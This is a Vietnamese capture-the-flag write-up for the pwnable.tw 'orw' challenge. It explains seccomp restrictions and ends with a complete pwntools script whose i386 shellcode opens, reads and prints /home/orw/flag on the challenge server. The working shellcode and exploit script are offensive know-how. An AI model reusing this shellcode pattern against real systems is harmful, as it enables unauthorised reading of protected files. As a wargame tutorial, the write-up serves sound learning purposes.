# Seccomp
- Lớp bảo vệ `seccomp` với tác dụng hạn chế lại những `syscall` mà ta có thể sử dụng cho `shellcode` của chúng ta và ta có thể check xem `chall` đấy có bật `seccomp` hay không bằng công cụ `seccomp-tools`.
- Hôm nay ta sẽ thực hành luôn bằng bài trên `pwwable.tw`.
## Thực Hành
### 1. Source
```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### 2. Hướng Giải
- Bước đầu ta sẽ check file bằng `seccomp-tools` nhaa:
    
    - ta sẽ tận dụng những `syscall` trên để hoàn thành bài này.
    
    - chall cũng đã hướng dẫn chúng ta try cập thư mục như hình để có thể thu đc flag
    **==> Lưu ý:** với file `32-bit` như chall này thì khi kết thúc 1 `syscall` ta sẽ xài `int 0x80` thay vì `syscall` như file `64-bit`.
    **ví dụ:** 
- Vậy thì ta chỉ cần viết `shellcode` với các `syscall` sau:
    - open : truy cập vào đường dẫn `/home/orw/flag`.
    - read : đọc flag trong file.
    - write hay stdout : in ra flag.
- Trước khi viết source code thì ta có 1 vấn đề phải giải quyết:
    
    - khi nhập thử thì ta có thể thấy ta đã bị `SIGSEGV` , đối với chall này do khi chạy local ở địa chỉ `0x804a060` chỉ cho read và write thôi chứ không cho phép ta execute nhưng mà trên sever thì lại cho phép vì thế ta phải thay đổi quyền của nó trước khi mà  `orw_seccomp`
    thực thi.
    
    - ta sễ nhập lệnh sauu `call (int)mprotect(0x804a000,0x1000,7)` làm sao cho địa chỉ phải được căn chỉnh 3 ký tự cuối phải là `000`.
    
    - sau khi chạy thử thì địa chỉ đó đã được thay đỏi quyền và đc cho phép execute.
- Sau đấy ta chỉ cần viết `shellcode` nối lên sever và thu flag thôi :Đ và source code như sau:
    ](image-6.png)
- **==> Lưu ý:** ta có thể check các arg của các `syscall` trên web https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit
- Giải thích: 
    - 
    - Đây là chuỗi `/home/orw/flag` về dạng số.
    - Và đây là cách chuyển đổi 
    - 
    - còn đây là `open syscall`: với eax là mã = 5 bạn có thể check trên link mình đã gửi ,
    ebx là đường dẫn vì, `shellcode` ta nhập vào `stack` bằng `read` nên ta sẽ set cho ebx = esp , còn 2 arg ta sẽ set NULL.
    - \
    - đây là `read syscall` : khi thực hiện `open` nó sẽ trả file ở eax cho nên ta sẽ set ebx = eax , ecx sẽ là nơi ta nhập  = esp , edx là số size mà có thể đọc ta sẽ set đại là 0x100, eax sẽ là mã của `read`.
    
    - và cuối cùng là `write syscall`: với ebx là `stdout` mã cấp quyển cho `write` in ra dữ liệu , còn eax là mã của `write`.
- Sau tất cả chỉ cần nối lên sever và chạy source là thu đc flag thôi.

- Và thành công rồi `shellcode` của chúng ta đã đúng.
### 3. Script
```
#!/usr/bin/python3

from pwn import *

exe = ELF('orw', checksec=False)
# libc = ELF('0', checksec=False)
context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''
                b

                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('chall.pwnable.tw', 10001)
else:
        p = process(exe.path)

GDB()
shellcode = asm(
        '''
        push 26465
        push 1818636151
        push 1919889253
        push 1836017711
        mov eax, 5
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80
        
        mov ebx, eax
        mov ecx, esp
        mov edx, 0x100
        mov eax, 3
        int 0x80
        
        mov ebx, 1
        mov eax, 4
        int 0x80
        
        ''', arch='i386'
)

sla(b'shellcode:', shellcode)
p.interactive()
```
